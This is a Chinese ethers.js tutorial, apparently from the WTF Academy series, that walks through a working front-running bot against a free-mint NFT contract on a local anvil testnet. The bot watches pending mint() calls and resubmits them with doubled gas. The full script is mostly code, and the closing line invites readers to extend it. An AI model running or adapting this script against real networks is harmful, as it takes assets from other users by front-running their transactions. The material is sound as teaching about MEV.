 ```yaml
---
title: 23. 抢先交易脚本
tags:
  - ethers
  - javascript
  - mev
  - mempool
  - frontrun
  - nft
  - frontend
  - web
---
```


# Ethers极简入门: 23. 抢先交易脚本

我最近在重新学`ethers.js`，巩固一下细节，也写一个`WTF Ethers极简入门`，供小白们使用。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy 社群：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTF-Ethers)

---

这一讲，我们将介绍抢先交易（Front-running，抢跑）的脚本。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利12亿美元](https://dune.com/chorus_one/ethereum-mev-data)。在学习之前，请先阅读[WTF Solidity教程 合约安全S11: 抢先交易](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md)。

![](./img/23-1.png)

## Freemint NFT合约

我们要抢跑的目标合约是一个ERC721标准的NFT合约`Frontrun.sol`，它拥有一个`mint()`函数进行免费铸造。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

为了简化测试环境，我们将上述合约部署在foundry本地测试网，然后监听在`mempool`中的未决交易，筛选出符合标准的交易进行抢跑。

如果你不了解 `foundry`，可以阅读WTF Solidity中的[Foundry教程](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)。安装好 foundry 后，在命令行输入以下命令就可以启动本地测试网:

```shell
anvil
```

## 抢跑脚本

下面，我们详解一下抢跑脚本`frontrun.js`，这个脚本会监听链上的`mint()`交易，并发送一个gas更高的相同交易，进行抢跑。

1. 创建连接到foundry本地测试网的`provider`对象，用于监听和发送交易。foundry本地测试网默认url：`"http://127.0.0.1:8545"`。

    ```js
    //1.连接到foundry本地网络

    import { ethers } from "ethers";
    const provider = new ethers.providers.JsonRpcProvider('<http://127.0.0.1:8545>')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}]链接到网络${res.chainId}`))
    ```
2. 创建合约实例，用于查看mint结果，确认是否抢跑成功。

    ```js
    //2.构建contract实例
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0xC76A71C4492c11bbaDC841342C4Cb470b5d12193'//合约地址
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. 创建一个包含我们感兴趣的`mint()`函数的`interface`对象，用于在监听过程中使用。如果你不了解它，可以阅读[WTF Ethers极简教程第20讲：解码交易](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md)。

    ```js
    //3.创建Interface对象，用于检索mint函数。
    //V6版本 const iface = new ethers.Interface(contractABI)
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
    // V6版本 return iface.getFunction("mint").selector
        return iface.getSighash(fn)
    }
    ```

4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供的，里面有10000 ETH测试币。

    ```js
    //4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

5. 我们先看一下正常的mint结果是怎样的。我们利用`provider.on`方法监听mempool中的未决交易，当交易出现时，我们会利用交易哈希`txHash`来读取交易详情`tx`，并筛选出调用了`mint()`函数的交易，查看交易结果，获取mint的nft编码及对应的owner，比对交易发起地址与owner是否一致。确认，mint按预期执行。

    ```js
    //5. 构建正常mint函数，检验mint结果，显示正常。
    const normaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint")) !== -1) {
                    console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}`)
                    console.log(`铸造发起的地址是:${tx.from}`)//打印交易发起地址
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`mint的NFT编号:${tokenId}`)
                    console.log(`编号${tokenId}NFT的持有者是${await contractFM.ownerOf(tokenId)}`)//打印nft持有者地址
                    console.log(`铸造发起的地址是不是对应NFT的持有者:${tx.from === await contractFM.ownerOf(tokenId)}`)//比较二者是否一致
                }
            }
        )
    })
    }
    ```

    ![](./img/23-2.png)

6. 进行抢跑mint。我们依旧利用`provider.on`方法监听mempool中的未决交易，当有调用了mint()函数的交易出现且发送方不是自己钱包地址的交易（如果不筛选，会自己抢跑自己的交易，陷入死循环）时，构建抢跑交易，发送交易进行抢跑。等待交易结束后，查看抢跑结果。预期将要被mint的nft并未被原交易发起地址mint，而是由抢跑地址mint。同时查看区块内数据，抢跑交易在原始交易前被打包进区块，抢跑成功！

    ```js
    const frontRun = async () => {
    provider.on('pending', async (txHash) => {
        const tx = await provider.getTransaction(txHash)
        if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
            console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}\n准备抢先交易`)
            const frontRunTx = {
                to: tx.to,
                value: tx.value,
    // V6版本 maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 2n， 其他运算同理。参考https://docs.ethers.org/v6/migrating/#migrate-bigint
                maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                maxFeePerGas: tx.maxFeePerGas.mul(2),
                gasLimit: tx.gasLimit.mul(2),
                data: tx.data
            }
            const aimTokenId = (await contractFM.totalSupply()).add(1)
            console.log(`即将被mint的NFT编号是:${aimTokenId}`)//打印应该被mint的nft编号
            const sentFR = await wallet.sendTransaction(frontRunTx)
            console.log(`正在frontrun交易`)
            const receipt = await sentFR.wait()
            console.log(`frontrun 交易成功,交易hash是:${receipt.transactionHash}`)
            console.log(`铸造发起的地址是:${tx.from}`)
            console.log(`编号${aimTokenId}NFT的持有者是${await contractFM.ownerOf(aimTokenId)}`)//刚刚mint的nft持有者并不是tx.from
            console.log(`编号${aimTokenId.add(1)}的NFT的持有者是:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from被wallet.address抢跑，mint了下一个nft
            console.log(`铸造发起的地址是不是对应NFT的持有者:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//比对地址，tx.from被抢跑
            //检验区块内数据结果
            const block = await provider.getBlock(tx.blockNumber)
            console.log(`区块内交易数据明细:${block.transactions}`)//在区块内，后发交易排在先发交易前，抢跑成功。
        }
    })
    }
    ```

    ![](./img/23-3.png)

## 总结

这一讲，我们介绍了一个简单的抢先交易脚本。你可以在这个脚本的基础上加入你想要的功能，开启币圈科学家之路！
